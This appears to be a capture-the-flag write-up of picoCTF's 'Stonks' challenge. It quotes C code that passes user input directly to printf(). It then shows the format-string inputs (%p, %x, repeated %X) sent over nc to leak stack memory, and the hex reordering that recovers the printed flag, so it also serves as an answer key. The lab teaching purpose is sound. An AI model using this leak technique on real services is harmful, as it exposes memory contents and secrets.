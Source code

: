 # Description
I decided to try something no one else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! `vuln.c` 
`nc mercury.picoctf.net 16439`

**tags:Binary Exploitation**

## Notes
- Connect to the server `nc mercury.picoctf.net 16439`
- `cat vuln.c` parts that are interesting
```int buy_stonks(Portfolio *p) {
        if (!p) {
                return 1;
        }
        char api_buf[FLAG_BUFFER];
        FILE *f = fopen("api","r");
        if (!f) {
                printf("Flag file not found. Contact an admin.\n");
                exit(1);
        }
        fgets(api_buf, FLAG_BUFFER, f);
```
```// TODO: Figure out how to read token from the file, for now just ask

        char *user_buf = malloc(300 + 1);
        printf("What is your API token?\n");
        scanf("%300s", user_buf);
        printf("Buying stonks with token:\n");
        printf(user_buf);
```

## Connecting to server
```nc mercury.picoctf.net 16439
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
```
Entering 2 will result :
```Portfolio as of Current_time

You don't own any stonks!
Goodbye!
```

Entering 1 will result :
```Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
```
- Whatever value you put in will get executed ( Input is the API? )

## Looking back at the code

```int buy_stonks(Portfolio *p) {
        if (!p) {
                return 1;
        }
        char api_buf[FLAG_BUFFER];
        FILE *f = fopen("api","r");
        if (!f) {
                printf("Flag file not found. Contact an admin.\n");
                exit(1);
        }
        fgets(api_buf, FLAG_BUFFER, f);
```

- From the snippet above, the API token looks to be the input.
- The ONLY validation is when the token isn't entered.

```// TODO: Figure out how to read token from file, for now just ask

        char *user_buf = malloc(300 + 1);
        printf("What is your API token?\n");
        scanf("%300s", user_buf);
        printf("Buying stonks with token:\n");
        printf(user_buf);
```

- Comment shows that the token is only being asked ( does not get checked )
- Memory space is created with `malloc()` for the API token
- The last line prints out the API token with `printf()`

## Input validation
print type specifiers for `printf()` :
Reference: 
https://cplusplus.com/reference/cstdio/printf/

Tried inputting different type specifiers: 
- `%p` for point address
Returned `0x9d7e410` - Converts into a text = `�~A`
- `%c` for character
Returned `�`
- `%x` for hexadecimal
Returned `809e3d0` - Converts into a text = `=`
- `%X` for hexadecimal uppercase
Returned `C`

- Tried inputting multiple `%X`s
Returned :
 `93CF3D0804B00080489C3F7FBBD80FFFFFFFF193CD160F7FC9110F7FBBDC7093CE180193CF3B093CF3D06F6369707B465443306C5F49345F74356D5F6C6C306D5F795F79336E6263376365616336FFEB007DF7FF6AF8F7FC9440C3844B0010F7E58CE9F7FCA0C0F7FBB5C0F7FBB000FFEB7858F7E4968DF7FBB5C08048ECAFFEB78640F7FDDF09804B000F7FBB000F7FBBE20FFEB7898F7FE3D50F7FBC890C3844B00F7FBB000804B000FFEB78988048C8693CD160`

Converts into :

``^fî?°^`H^|?YØÿÿÿñ^fìgYÜp^fí^fî=nãðocip{FTC0l_I4_t5m_ll0m_y_y3nbc7ceac6ÿ^~}
÷ùJ^~÷ùJø÷öt@â÷ßlé÷ö^`À÷õ^uÀ÷õ^pÿ^~ÜH÷Þv^m÷õ^uÀ^`Hì¯ùíÅ@÷÷¿     
^`KYYâùíÈ^o`âùíÈ^o^aÕZ^i ¡ Y°ÿ^~Ü^h^`HÈhnÁ`ÿ^~Ütÿ^~Ü^h^`H¾^=Y?Àÿ^~Ý<ÿ^~Ý4``

- Looks like the flag is in it

Removed unnecessary bytes:
`6F6369707B465443306C5F49345F74356D5F6C6C306D5F795F79336E6263376365616336FF9E06FF9E007D`

Converts to : 
`ocip{FTC0l_I4_t5m_ll0m_y_y3nbc7ceac6ÿ}`
- Looks like it's using a different byte-order sequence.
- Tried converting endianness
    `}ÿÿ6caec7cbn3y_y_m0ll_m5t_4I_l0CTF{pico`
- Found the sequence order (8 bytes are flipped)
    E.g. First 8 bytes `6F 63 69 70` to `70 69 63 6F`
- Manually relocated bytes
`7069636F4354467B495F6C3035745F346C6C5F6D795F6D306E33795F63376362366361657D00957D009EFF`

Converts to :

**Flag found: picoCTF{I_l05t_4ll_my_m0n3y_c7cb6cae}^~ÿ**

Hexadecimal Converter: 
https://www.scadacore.com/tools/programming-calculators/online-hex-converer

Endianness Converter:
https://www.save-editor.com/tools/wse_hex.html
